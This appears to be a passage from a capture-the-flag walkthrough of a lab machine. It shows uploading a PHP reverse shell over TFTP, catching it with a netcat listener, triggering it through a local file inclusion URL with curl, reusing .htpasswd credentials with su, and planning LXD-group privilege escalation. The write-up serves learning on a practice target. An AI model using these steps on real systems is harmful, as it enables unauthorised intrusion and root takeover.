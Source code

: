 By using TFTP:
```
$ tftp
tftp> connect
(to) 10.129.95.185
tftp> status
Connected to 10.129.95.185.
Mode: netascii Verbose: off Tracing: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> put shell.php
Sent 5680 bytes in 0.7 seconds
tftp> quit
```
We uploaded the shell.php on the target machine. Then, before call the shell, we must using netcat for listening on the port specified in the `shell.php` file:
```
$ nc -lvnp 4444
```
Next, we must call it by using the local file inclusion vulnerability by surfing the following URL on the browser: http://10.129.95.185/?file=/var/lib/tftpboot/shell.php or by using `curl` command:
```
$ curl http://10.129.95.185/?file=/var/lib/tftpboot/shell.php
```
After this, come back to netcat listener, and we can see we accessed on the target machine. We access on the machine as `www-data` user. Before, inside the `.htpasswd` file we found some credential. Try to use it on the shell we just gained by typing:
```
$ python3 -c "import pty;pty.spawn('/bin/bash');"
$ su - mike
```
Insert the password you found in the `.htpasswd` and then you gained the access as `mike` user and you can go to catch the user flag.

Phase 3: Privilege Escalation
--
Now we need to pwn the system by getting the root privilege. How can we do this?

Searching on sensitive files we didn't find any valuable information, and `mike` user cannot access to `/etc/sudoers` file (`sudo -l`) to check if there is some program it can run as root. Let's try to see which group `mike` user belongs by typing:
```
$ groups

mike lxd
```
We can see that `mike` user belongs to `lxd` group. LXD (Linux Daemon) is a concept related to LXC (Linux Container). An user belonging this group can escalate privileges to root. More theorical information is shown in the following link: https://www.hackingarticles.in/lxd-privilege-escalation

In our task, our approach should be the following: download Alpine Linux Container, upload it to the target machine, build the files, execute the set of lxd/lxc commands to escalate privileges. The principle here is to build and run a container in the target machine and mount the target machine itself inside the container. So we should have a hierarchical structure like (target machine -> container -> target machine).
